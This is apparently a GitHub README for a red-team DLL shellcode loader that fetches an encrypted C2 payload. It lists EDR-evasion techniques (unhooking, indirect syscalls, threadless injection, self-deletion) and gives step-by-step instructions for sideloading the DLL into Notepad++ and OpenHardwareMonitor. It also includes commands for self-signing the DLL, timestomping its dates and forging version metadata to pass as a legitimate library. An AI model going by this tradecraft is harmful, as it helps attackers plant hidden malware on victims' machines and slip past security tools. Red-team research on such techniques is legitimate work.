



[](https://opensource.org/licenses/MIT)
[](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC



# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

Run as:

```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the [updater](./updater/) folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder to sideload the dll


# 💡Tips:

- Use the [signtool](./signtool/) to sign a certificate on the DLL due to some EDRs flag unsigned dlls straightaway such as Elastic once the loader drops on the disk. Also change the dates similar to the orginal dll that has been replaced.



- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx
signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank**


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this



```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an red team engagement, this is just a POC and its not a good idea to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
